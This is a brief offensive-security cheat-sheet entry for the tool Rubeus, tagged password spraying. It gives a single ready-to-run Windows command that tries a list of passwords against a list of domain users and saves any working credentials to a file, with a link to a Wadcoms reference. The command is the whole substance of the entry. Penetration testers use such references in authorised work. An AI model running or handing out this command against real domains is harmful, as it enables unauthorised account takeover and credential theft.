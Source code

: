 # Rubeus

Search Tag(s): #password-spraying

```
C:\> Rubeus.exe /users:users.lst /passwords:passwords.lst /domain:<domain_name> /outfile:credentials.txt
```

---
## References

- [Wadcoms: Rubeus Brute](https://wadcoms.github.io/wadcoms/Rubeus-Brute/)